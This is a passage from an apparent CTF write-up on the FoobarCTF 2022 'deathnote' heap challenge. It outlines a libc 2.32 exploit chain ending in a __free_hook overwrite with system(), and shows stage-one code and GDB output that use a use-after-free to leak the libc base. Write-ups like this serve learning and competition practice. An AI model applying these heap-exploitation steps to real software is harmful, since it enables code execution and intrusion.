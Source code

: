 
### Summary:
  1. Leak main arena address
  2. Leak heap address
  3. Overwrite forward pointer
  4. Overwrite `__free_hook` with system()

## 3. Exploit

Before we exploit, I wrote these function for a convenient exploitation:

<details><summary>Code snippet</summary></details>

And now let’s start!

### Stage 1: Leak main arena address

First, we will create a large chunk and then free it to make it go to unsorted bin:

```
add(0, 0x1000, '{}'.format(0).encode()*8)
add(1, 0x10, '{}'.format(1).encode()*8)
free(0)
```

Check in GDB and we can see that the main arena address contains null byte at LSB:

![unsortedbin_null_byte.png](/static/images/foobar-ctf-2022/images/unsortedbin_null_byte.png)

And we know that `puts()` will stop at null byte, so we cannot print that address out. We will try to put it into the large bin to see if it’s different:

```py
add(0, 0x1100, '{}'.format(2).encode()*8)
```

And check again, we see that there is no null byte in the address anymore:

![large_bin_not_null_byte.png](/static/images/foobar-ctf-2022/images/large_bin_not_null_byte.png)

And below the libc main arena address is the heap forward and backward pointer but we won’t use this chunk to leak that heap address. Just libc is enough.

So we just leak the libc address out with the bug **Use After Free**, then calculate the offset and take the leaked address subtract with offset, we will get the libc base address:

```
gef➤  x/10xg 0x1b882a0-0x10
0x1b88290:  0x0000000000000000  0x0000000000001011
0x1b882a0:  0x00007f4a4b3d9220  0x00007f4a4b3d9220
0x1b882b0:  0x0000000001b88290  0x0000000001b88290
0x1b882c0:  0x0000000000000000  0x0000000000000000
0x1b882d0:  0x0000000000000000  0x0000000000000000

gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x0000000000404000 0x0000000000405000 0x0000000000004000 rw- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/dnote_patched
0x0000000001b88000 0x0000000001ba9000 0x0000000000000000 rw- [heap]
0x00007f4a4b212000 0x00007f4a4b214000 0x0000000000000000 rw-
0x00007f4a4b214000 0x00007f4a4b23a000 0x0000000000000000 r-- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
0x00007f4a4b23a000 0x00007f4a4b388000 0x0000000000026000 r-x /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
...

```